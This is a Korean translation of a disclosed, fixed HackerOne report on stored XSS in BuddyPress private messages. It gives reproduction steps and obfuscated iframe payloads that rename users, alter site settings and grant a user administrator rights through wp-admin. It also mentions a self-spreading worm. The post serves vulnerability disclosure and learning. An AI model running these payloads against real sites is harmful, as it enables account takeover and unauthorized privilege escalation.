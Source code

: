 ```yaml
---
layout: post
title: Stored XSS in Private Message component (BuddyPress)
categories: PoC
tags: [Bugbounty, XSS, Translation]
---
```

출처 : [hackerone hacktivity, 작성자 : Kieran Munday (klmunday)] https://hackerone.com/reports/487081

_[ 본 이슈는 해결 된 상태이며, 취약점은 2019년 3월 9일 오전 7시 28분에 공개되었습니다. 워드프레스에 리포팅 되었으며, 해당 소스코드는 버디프레스(BuddyPress Core)의 것입니다. 취약점의 종류와 강도는 Stored XSS 이며, 포상금은 $500달러로 한화로 약 57만원 입니다. 해당 취약점은 9~10/10 정도의 심각성을 내포하고 있습니다. ]_
- - -
# 설명
워드프레스 버전: 5.0.3 / 버디프레스 버전: 4.1.0

계정을 가진 버디프레스의 유저는 다른 용도를 위해 렌더링된 HTML 코드가 삽입된 비밀 메시지를 보낼 수 있는데, 이것은 script, iframe 등의 자바스크립트 코드를 실행시킬 수 있는 것들을 포함합니다. 이 XSS 코드는 DB에 저장되며 유저가 이 메시지를 읽는 어느 때라도 실행될 수 있습니다. 이 것은(역자 : 취약점이 발생되는 곳은) 유저가 마지막으로 받거나 보낸 메시지를 보여주는 the message preview window도 포함됩니다.

“희생자”가 권한을 부여한 어떠한 (웹앱의) 동작이라도 실행되고 있는 코드는 악용될 수 있으며, 특히 관리자와 같이 권한을 가진 사용자에게는 더 위험합니다. 왜냐하면 권한은 워드프레스 설정과 사용자 이메일과 같은 개인 정보를 열람할 수 있게하기 때문입니다. 이것은 플러그인 등과 같은 어떠한 동작도 포함됩니다.

이 취약점이 발생이 되는 선행 조건은 (기본 권한을 가진) 공격자의 계정과 비밀 메세지 기능이 설정되어있는 버디프레스 설정 외엔 없습니다.
- - -
# 공격이 발생되는 과정
## 새로운 메세지를 작성할 때 :
1. 다른 사용자의 프로필 페이지로 이동합니다.
1. 비밀 메시지(Private Message)를 클릭합니다.
1. 아무 주제(subject)나 입력합니다.
1. 다음과 같은 메시지를 입력합니다 : `Test<iframe src=javascript:alert(1) width=0 height=0 style=display:none;></iframe>`
1. 메시지를 보냅니다.
1. 메시지를 열람합니다(XSS를 트리거 시킨다).
1. 희생자가 해당 메시지를 보길 기다립니다.

## 기존 스레드에 답할 때 :
1. 본인 계정의 인박스 페이지로 갑니다.
1. 받은 메시지를 열람합니다.
1. 다음과 같은 코드가 첨부된 채 메시지에 답장을 보냅니다 : `Test<iframe src=javascript:alert(1) width=0 height=0 style=display:none;></iframe>`
1. 메시지를 열람합니다(XSS를 트리거 시킨다).
1. 희생자가 해당 메시지를 보길 기다립니다.

페이로드에는 공백이 들어가도 무방하지만 scr에는 어떠한 공백이나 쌍따옴표라도 포함되선 안됩니다. 그렇기 때문에 문자열과 eval’d(역자 : eval()함수)가 포함 된 char 코드로의 변환이 필요합니다.

## 예시:
{% highlight html %}
<iframe src=javascript:eval(String.fromCharCode.apply(null,[108,101,116,32,116,101,115,116,32,61,32,49,50,51,59,10,97,108,101,114,116,40,116,101,115,116,41,59])) width=0 height=0 style=display:none;></iframe>
{% endhighlight %}

## 이것은 아래의 코드로 변환되어 실행됩니다:
{% highlight html %}
let test = 123;
alert(test);
{% endhighlight %}

더 많은 용량의 페이로드가 사용될수도 있습니다. 그러나 (첨부할)코드가 char 코드 배열의 형태여야 하기 때문에 (만약 공백이나 쌍따옴표가 포함되어 있다면) 자바스크립트 코드를 보낼 수 있는 메시지로 변환시켜주는 간단한 파이썬 코드를 작성했습니다. 그리고 다음과 같이 수행되는 몇개의 개념증명 페이로드도 포함되어 있습니다 :

* 사용자의 유저 네임을 “HACKED”로 바꿉니다(어떠한 사용자라도 영향받을 것입니다).
* 웹사이트 제목과 설명을 바꿉니다(권한을 가진 사용자가 해당 메시지를 읽어야 합니다).
* 사용자의 권한을 관리자의 권한으로 승격시킵니다(권한을 가진 사용자가 해당 메시지를 읽어야 합니다).

스크립트와 페이로드를 보기 위해 첨부된 zip파일을 다운로드 해주시길 바랍니다 :
(역자 : 원문에서 다운로드 해주세요) https://hackerone.com/reports/487081

## 아래의 페일드 예시를 확인해주시길 바랍니다:
(참고: 공백을 넣는 것은 인박스의 메시지에서 iframe 코드가 보이지 않게 방지하는 것이지 해당 작업에 필요한 것은 아니고 iframe 태그 만을 필요로 합니다.)

## "HACKED"로 사용자 이름을 바꿉니다:
{% highlight html %}
This is a malicious message.                    <iframe src=javascript:eval(String.fromCharCode.apply(null,[108,101,116,32,110,97,109,101,32,61,32,112,97,114,101,110,116,46,66,80,95,78,111,117,118,101,97,117,46,109,101,115,115,97,103,101,115,46,114,111,111,116,85,114,108,46,115,112,108,105,116,40,39,47,39,41,91,50,93,59,10,108,101,116,32,117,114,108,32,61,32,112,97,114,101,110,116,46,108,111,99,97,116,105,111,110,46,111,114,105,103,105,110,32,43,32,39,47,109,101,109,98,101,114,115,47,39,32,43,32,110,97,109,101,32,43,32,39,47,112,114,111,102,105,108,101,47,101,100,105,116,47,103,114,111,117,112,47,49,47,39,59,10,10,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,117,114,108,44,32,116,121,112,101,58,32,39,71,69,84,39,44,32,115,117,99,99,101,115,115,58,32,102,117,110,99,116,105,111,110,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,32,123,10,32,32,32,32,108,101,116,32,100,111,109,32,61,32,112,97,114,101,110,116,46,106,81,117,101,114,121,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,59,10,32,32,32,32,100,111,109,46,102,105,110,100,40,39,105,110,112,117,116,91,110,97,109,101,61,34,102,105,101,108,100,95,49,34,93,39,41,46,118,97,108,40,39,72,65,67,75,69,68,39,41,59,10,32,32,32,32,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,100,111,109,46,102,105,110,100,40,39,35,112,114,111,102,105,108,101,45,101,100,105,116,45,102,111,114,109,39,41,46,97,116,116,114,40,39,97,99,116,105,111,110,39,41,44,32,116,121,112,101,58,32,39,80,79,83,84,39,44,32,100,97,116,97,58,32,100,111,109,46,102,105,110,100,40,39,35,112,114,111,102,105,108,101,45,101,100,105,116,45,102,111,114,109,39,41,46,115,101,114,105,97,108,105,122,101,40,41,125,41,10,125,125,41,59,10])) width=0 height=0 style=display:none;></iframe>
{% endhighlight %}

## 웹사이트 제목과 설명을 바꿉니다(관리자가 해당 메시지를 열람해야 합니다):
{% highlight html %}
This is a malicious message.                    <iframe src=javascript:eval(String.fromCharCode.apply(null,[108,101,116,32,110,101,119,95,115,105,116,101,95,116,105,116,108,101,32,61,32,39,72,65,67,75,69,68,39,59,10,108,101,116,32,110,101,119,95,115,105,116,101,95,100,101,115,99,114,105,112,116,105,111,110,32,61,32,39,118,105,97,32,88,83,83,39,59,10,108,101,116,32,117,114,108,32,61,32,112,97,114,101,110,116,46,108,111,99,97,116,105,111,110,46,111,114,105,103,105,110,32,43,32,39,47,119,112,45,97,100,109,105,110,47,111,112,116,105,111,110,115,45,103,101,110,101,114,97,108,46,112,104,112,39,59,10,10,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,117,114,108,44,32,116,121,112,101,58,32,39,71,69,84,39,44,32,115,117,99,99,101,115,115,58,32,102,117,110,99,116,105,111,110,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,32,123,10,32,32,32,32,108,101,116,32,100,111,109,32,61,32,112,97,114,101,110,116,46,106,81,117,101,114,121,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,59,10,32,32,32,32,100,111,109,46,102,105,110,100,40,39,105,110,112,117,116,91,110,97,109,101,61,34,98,108,111,103,110,97,109,101,34,93,39,41,46,118,97,108,40,110,101,119,95,115,105,116,101,95,116,105,116,108,101,41,59,10,32,32,32,32,100,111,109,46,102,105,110,100,40,39,105,110,112,117,116,91,110,97,109,101,61,34,98,108,111,103,100,101,115,99,114,105,112,116,105,111,110,34,93,39,41,46,118,97,108,40,110,101,119,95,115,105,116,101,95,100,101,115,99,114,105,112,116,105,111,110,41,59,10,32,32,32,32,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,112,97,114,101,110,116,46,108,111,99,97,116,105,111,110,46,111,114,105,103,105,110,32,43,32,39,47,119,112,45,97,100,109,105,110,47,111,112,116,105,111,110,115,46,112,104,112,39,44,32,116,121,112,101,58,32,39,80,79,83,84,39,44,32,100,97,116,97,58,32,100,111,109,46,102,105,110,100,40,39,102,111,114,109,39,41,46,115,101,114,105,97,108,105,122,101,40,41,125,41,10,125,125,41,59])) width=0 height=0 style=display:none;></iframe>
{% endhighlight %}

## id가 2인 유저를 관리자 권한으로 승격시킵니다(관리자가 해당 메시지를 열람해야 합니다):
{% highlight html %}
This is a malicious message.                    <iframe src=javascript:eval(String.fromCharCode.apply(null,[108,101,116,32,117,114,108,32,61,32,112,97,114,101,110,116,46,108,111,99,97,116,105,111,110,46,111,114,105,103,105,110,32,43,32,39,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,101,100,105,116,46,112,104,112,63,117,115,101,114,95,105,100,61,50,38,119,112,95,104,116,116,112,95,114,101,102,101,114,101,114,61,47,119,112,45,97,100,109,105,110,47,117,115,101,114,115,46,112,104,112,39,59,10,10,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,117,114,108,44,32,116,121,112,101,58,32,39,71,69,84,39,44,32,115,117,99,99,101,115,115,58,32,102,117,110,99,116,105,111,110,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,32,123,10,32,32,32,32,108,101,116,32,100,111,109,32,61,32,112,97,114,101,110,116,46,106,81,117,101,114,121,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,59,10,32,32,32,32,100,111,109,46,102,105,110,100,40,39,115,101,108,101,99,116,91,110,97,109,101,61,34,114,111,108,101,34,93,39,41,46,112,114,111,112,40,34,115,101,108,101,99,116,101,100,73,110,100,101,120,34,44,32,52,41,59,10,32,32,32,32,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,100,111,109,46,102,105,110,100,40,39,102,111,114,109,39,41,46,97,116,116,114,40,39,97,99,116,105,111,110,39,41,44,32,116,121,112,101,58,32,39,80,79,83,84,39,44,32,100,97,116,97,58,32,100,111,109,46,102,105,110,100,40,39,102,111,114,109,39,41,46,115,101,114,105,97,108,105,122,101,40,41,125,41,10,125,125,41,59])) width=0 height=0 style=display:none;></iframe>
{% endhighlight %}

이미지가 포함되어있는 더 자세한 write-up을 원하신다면 https://docs.google.com/document/d/1RgMWJlYen9iR_JTxATYR4TJWAPKRgaSKuiiqZp7x8L0/edit?usp=sharing을 방문해 주세요.
- - -
# 영향
공격자는 그가 원하는 행위를 희생자가 하도록 페이로드를 조작할 수 있습니다. 특히 이것은 관리자에게 위험한데 그 이유로는, 만약 공격자가 희생자들을 타겟팅했다면 공격자는 사이트 정보나 컨텐츠를 수정할 수 있고, 사용자 개인정보 등과 같은 민감한 정보를 열람할 수 있기 때문입니다.

제가 공격을 수행했을 때 저는 프로필 이름과 사용자 비밀번호를 바꿀 수 있었으며, 사용자의 이메일 주소를 읽을 수 있었고 페이지와 웹사이트 데이터, 이메일 주소를 포함해 워드프레스 설정을 수정할 수 있었습니다.

타겟팅된 권한을 가진 사용자가 어떤 것을 하도록 악용할 수 없었고, 저는 아무것도 발견할 수 없었습니다. 공격자가 단 한번의 공격만으로 wp-admin과 다른 플러그인의 모든 기능에 접근하고 더 나아가 연결된 요청을 보내는 것은 타겟에 따라 다를 것으로 보입니다.

메시지를 읽으면 다른 모든 사용자에게 이메일을 전송하는 웜 바이러스 제작도 가능합니다.